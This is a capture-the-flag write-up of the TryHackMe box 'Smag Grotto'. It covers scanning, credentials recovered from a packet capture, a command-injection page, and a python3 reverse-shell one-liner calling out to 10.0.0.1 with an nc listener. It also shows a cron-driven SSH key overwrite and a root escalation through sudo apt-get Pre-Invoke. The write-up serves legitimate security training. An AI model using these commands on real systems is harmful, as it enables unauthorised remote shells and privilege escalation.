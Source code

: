 # 'Smag Grotto' box writeup
## Smag Grotto is a CTF box written by JakeDoesSec and available on the [TryHackMe platform](https://tryhackme.com).
## Read about [Crontab service](https://opensource.com/article/17/11/how-use-cron-linux), [apt-get package system tool](https://itsfoss.com/apt-get-linux-guide/) and [APT Privilege Escalation](https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/)

# ![bg](images/background.png?raw=true "Title")

## Foothold
+ **We deploy the machine and start with a nmap scan for open ports**

``nmap -sV -sC -oN scan1 10.10.163.139``

+ **There are 2 services running on default ports: ssh and http**

![1](images/nmap_scan_sg.jpg?raw=true "nmap_scan")

+ **Visiting the http site, we are welcomed by a big Smag title with a small announce from the developer of the site**

![2](images/site_sg.png?raw=true "Site")

+ **Let's perform a gobuster to search some directories on the website. I'm using the common.txt wordlist, a default wordlist on kali machines**

``gobuster dir -u http://10.10.163.139/ -w /usr/share/wordlists/dirb/common.txt``


![3](images/dirbuster.jpg?raw=true "gobuster")

+ **We found a mail directory, so let's check it out into the web browser. It seems to be like a mail message left on the website to notify a future migration. The mail was writen with the intention to arrive to the admin of the page**

![4](images/mail_page.png?raw=true "mail_page")

+ **Inside the first Network Migration box of the message, we can spot the dHJhY2Uy.pcap, a linked file which seems to be a packet data of this network. Let's download that file and go into a Wireshark analysis of this packet.**

![5](images/wiresh_packet.png?raw=true "wireshark_analysis")

+ **We can spot a POST login request inside the data packet, so let's follow TCP stream into this packet**

![6](images/tcp_stream.png?raw=true "tcp_stream")

+ **Bingo! We found some credentials in plain text form. Looking in the picture above us, we can see the Host that has been used in the POST login request: development.smag.thm. If we are trying to access that page, we're having trouble finding that site... But, judging on the mails that the developers shared between them, the website suffered a migration, so let's just try to change our hosts list to override the DNS**

``sudo vim /etc/hosts``

![7](images/hosts.jpg?raw=true "hosts")

+ **Now, let's try to access the development.smag.thm/login.php page so we can use our credentials**

![7](images/login1.jpg?raw=true "login")

+ **We are welcomed by a big title 'Enter a command' with a box below. I tried some several linux commands like ls, whoami, etc, but i can't see no output. So i've tried to download a file on the box machine with the wget, hosting a simple python server on mine, just to check if the commands are available and if it's worth trying a reverse shell.**

![8](images/wget.jpg?raw=true "wget")

## User escalation
+ **It's all working, we have the GET request so let's move on to a reverse shell, using python3. I've tried with python but not working, because probably on the machine a python3 is installed.**
  **Firstly, listen to the 1234 port**
``nc -lvnp 1234``

``python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'``

 **And here it's our shell, connected with the www-data user. Let's upgrade it to an interactive one**

``python3 -c 'import pty; pty.spawn("/bin/bash")'``

![9](images/entered(2).jpg?raw=true "shell")

+ **Let's look into the crontab file and understand it. We have a cron which tells us that the root user is making an overwriting action every minute through the cat command from the** jake_id_rsa.pub.backup **file to the** authorized_keys **file of the jake user. This means that if we can modify the jake_id_rsa.pub.backup content, we can connect with the jake user on the ssh service.**

![10](images/crontab.jpg?raw=true "crontab")

 **Luckily, the** jake_id_rsa.pub.backup **file has writing permission for every user.**

![11](images/fileperm.jpg?raw=true "fileperm")

+ **Let's copy our public key into the remote box.**

``cat /home/kali/.ssh/id_rsa.pub``

``echo "your_id_rsa.pub" > /opt/.backups/jake_id_rsa.pub.backup``

![12](images/copy_id.jpg?raw=true "copy_id")

![13](images/copy_id_2.jpg?raw=true "copy_id_2")


+ **Now, we have overwritten the public ssh and we can use public key authentication. Voila, there's our user flag**

![13](images/user_flag.jpg?raw=true "user_flag")

## Root Escalation

+ **Running the** ``sudo -l`` **command, we can see the allowed commands for the user jake. He has a powerful accessible command to run: apt-get, which is the command line tool to interact with this packaging system.**

![14](images/sudola.jpg?raw=true "sudo -l")

+ **Exploiting the apt-get vulnerability, we can use the tool to gain a root access, using the update option and simultanously invoking the bash into the root account**

``sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/bash``

 ![15](images/root_flag(1).jpg?raw=true "root_flag")

 **So here we got the root flag. It was a funny box with an interesting vulnerability based on apt tool, a very useful box for beginners**
